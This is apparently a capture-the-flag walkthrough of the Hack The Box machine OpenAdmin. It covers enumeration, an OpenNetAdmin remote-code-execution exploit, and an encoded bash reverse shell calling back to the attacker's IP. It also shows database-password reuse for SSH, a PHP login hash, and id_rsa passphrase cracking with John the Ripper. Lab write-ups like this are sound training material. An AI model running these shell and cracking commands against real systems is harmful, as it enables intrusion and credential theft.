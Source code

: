 # OpenAdmin 

![image](https://user-images.githubusercontent.com/5285547/124369170-d137d380-dc60-11eb-90cd-9aca9d30f8ef.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## Port 80

Using gobuster i enumerated port 80 as only the default apache page loaded. 

```
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/] 
```

### Artwork

http://10.10.10.171/artwork/index.html

- Gobuster
```
/index.html           (Status: 200) [Size: 14461]
/images               (Status: 301) [Size: 321] [--> http://10.10.10.171/artwork/images/]
/main.html            (Status: 200) [Size: 931]                                          
/services.html        (Status: 200) [Size: 11749]                                        
/about.html           (Status: 200) [Size: 11156]                                        
/contact.html         (Status: 200) [Size: 8999]                                         
/blog.html            (Status: 200) [Size: 11523]                                        
/css                  (Status: 301) [Size: 318] [--> http://10.10.10.171/artwork/css/]   
/readme.txt           (Status: 200) [Size: 410]                                          
/js                   (Status: 301) [Size: 317] [--> http://10.10.10.171/artwork/js/]    
/fonts                (Status: 301) [Size: 320] [--> http://10.10.10.171/artwork/fonts/] 
/single.html          (Status: 200) [Size: 17627]  
```

### Sierra

http://10.10.10.171/sierra/index.html

- Gobuster
```
/contact.html         (Status: 200) [Size: 15853]
/blog.html            (Status: 200) [Size: 20477]
/index.html           (Status: 200) [Size: 43029]
/img                  (Status: 301) [Size: 317] [--> http://10.10.10.171/sierra/img/]
/service.html         (Status: 200) [Size: 22090]                                    
/css                  (Status: 301) [Size: 317] [--> http://10.10.10.171/sierra/css/]
/portfolio.html       (Status: 200) [Size: 13000]                                    
/js                   (Status: 301) [Size: 316] [--> http://10.10.10.171/sierra/js/] 
/about-us.html        (Status: 200) [Size: 20785]                                    
/elements.html        (Status: 200) [Size: 24524]                                    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.10.171/sierra/fonts/]
/vendors              (Status: 301) [Size: 321] [--> http://10.10.10.171/sierra/vendors/]
```

Not a lot on the above two sites.

### Music

http://10.10.10.171/music/index.html

- Gobuster
```
/img                  (Status: 301) [Size: 316] [--> http://10.10.10.171/music/img/]
/contact.html         (Status: 200) [Size: 6223]                                    
/blog.html            (Status: 200) [Size: 6728]                                    
/main.html            (Status: 200) [Size: 931]                                     
/category.html        (Status: 200) [Size: 23863]                                   
/index.html           (Status: 200) [Size: 12554]                                   
/css                  (Status: 301) [Size: 316] [--> http://10.10.10.171/music/css/]
/js                   (Status: 301) [Size: 315] [--> http://10.10.10.171/music/js/] 
/artist.html          (Status: 200) [Size: 20133]                                   
/playlist.html        (Status: 200) [Size: 8885] 
```

I found a login button but it redirects to ../ona

![image](https://user-images.githubusercontent.com/5285547/124369606-4c02ed80-dc65-11eb-9237-46b771469cd4.png)


## www-data

Going to http://10.10.10.171/ona/   
gives us the openNetAdmin interface with ```verson 18.1.1```

Finding an exploit online I crafted my own from this example: https://packetstormsecurity.com/files/162516/opennetadmin85141811-exec.txt

My Exploit: https://github.com/AssassinUKG/Writeups/tree/main/hackthebox/dare/openadmin/opennetadmin

```
bash openNetAdmin.sh http://10.10.10.171/ona/ id
```

Usng my shell I was able to get a reverseshell from the box. 

Command used (bash revshell + base64 encoded + urlencoding)
```
echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNS85OTg4IDA%2BJjE%3D | base64 -d| bash
```

![image](https://user-images.githubusercontent.com/5285547/124384929-76879180-dccb-11eb-97d1-1c6e1faadf0c.png)

Upgrade your shell as usual...
```
python3 -c 'import pty;pty.spwan("/bin/bash")'
stty raw -echo;fg
reset
xterm
```

Looking aroud the system I finally find the database config file loacated
```
/var/www/html/ona/local/config/database_settings.inc.php
```
```
'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
```

## Jimmy (User 1)

Trying the password for the database on the system users. Let's us in as Jimmy  

![image](https://user-images.githubusercontent.com/5285547/124386200-227fab80-dcd1-11eb-9a06-80a8599a6d09.png)

The password also works for SSH! 

```
ssh jimmy@10.10.10.171
```

Checking out the local ports shows us an internal website being hosted on port 52846

```
jimmy@openadmin:~$ netstat -ltup 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:52846         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -                   
udp        0      0 localhost:domain        0.0.0.0:*                           - 
```

Let's port portward over SSH to see whats on the page. 

```
ssh jimmy@10.10.10.171 -L 80:127.0.0.1:52846
```

We are presented with a login screen. 

![image](https://user-images.githubusercontent.com/5285547/124386625-34fae480-dcd3-11eb-8da4-34d0ac0e93b4.png)

We should try to find more infomation in the files being hosted. 
```/var/www/internal```

Looking at the index.php page we can see a password hash, time to crack that! 

```
  <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
```

Using an online site, I got the password for the login

![image](https://user-images.githubusercontent.com/5285547/124388806-61ffc500-dcdc-11eb-97d4-898cb65ccad9.png)


After loggin in we get presented with a id_rsa key, hopefully for the other user. 

![image](https://user-images.githubusercontent.com/5285547/124388861-9e332580-dcdc-11eb-8947-ad209bd45ff0.png)

## Joanna

Using ssh2john.py, then john the ripper, I crack the id_rsa password

```
ssh2john.py id_rsa > id_rsa.hash
sudo ./john -w=/usr/share/SecLists/Passwords/rockyou.txt ~/id_rsa.hash
```

![image](https://user-images.githubusercontent.com/5285547/124389745-75ad2a80-dce0-11eb-8d0b-4952c216765d.png)




